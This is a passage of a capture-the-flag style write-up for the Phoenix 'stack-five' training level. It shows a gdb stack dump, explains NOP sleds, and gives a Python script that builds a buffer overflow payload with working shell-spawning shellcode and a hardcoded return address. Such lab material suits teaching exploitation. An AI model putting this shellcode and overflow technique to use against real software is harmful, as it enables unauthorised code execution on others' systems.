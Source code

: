 And Executing it leads to:

```
user@phoenix-amd64:/tmp$ python exploit.py > payload

(gdb) run < /tmp/payload 
Starting program: /opt/phoenix/amd64/stack-five < /tmp/payload
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x00000000004005a1 in start_level ()

(gdb) x/48wx $rsp
0x7fffffffe490:	0x41414141	0x42424242	0x43434343	0x44444444
0x7fffffffe4a0:	0xbb48c031	0x91969dd1	0xff978cd0	0x53dbf748
0x7fffffffe4b0:	0x52995f54	0xb05e5457	0x4c050f3b	0x4d4c4c4c
0x7fffffffe4c0:	0x4e4d4d4d	0x4f4e4e4e	0x504f4f4f	0x51505050
0x7fffffffe4d0:	0x52515151	0x53525252	0x54535353	0x55545454
0x7fffffffe4e0:	0x56555555	0x57565656	0x58575757	0x59585858
0x7fffffffe4f0:	0x5a595959	0x61615a5a	0x62626161	0x63636262
0x7fffffffe500:	0x64646363	0x65656464	0x66666565	0x67676766
0x7fffffffe510:	0x68686867	0x69696968	0xffffe4a0	0x00007fff
0x7fffffffe520:	0xffffe588	0x00007fff	0x00000000	0x00000001
0x7fffffffe530:	0x00000001	0x00000000	0xf7d8fd62	0x00007fff
0x7fffffffe540:	0x00000000	0x00000000	0xffffe580	0x00007fff

(gdb) c
Continuing.
process 468 is executing new program: /bin/dash
```

But wait, where is our shell? Well there are two more problem we have to take care of.


##### NOPs for stack safety

What do I mean by "stack safety"? Well, the start address of the stack can change depending on environment variables, for example the path that you are in. If you execute the program from /opt/phoenix/amd64/ the stack will start later than if you execute the program from /tmp because /opt/phoenix/amd64/ is longer and takes more space.

So since our shellcode does not need all the space available on the stack, its best to fill our Stack with a lot of NOPs (No Operation) Opcodes (x90) and then just jump somewhere in the middle of the nops. Here is how I adjusted my python script for that

```py
nops = "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKL"
ret_address = "\xb0\xe4\xff\xff\xff\x7f" 
print(nops + shellcode + padding + ret_address)
```
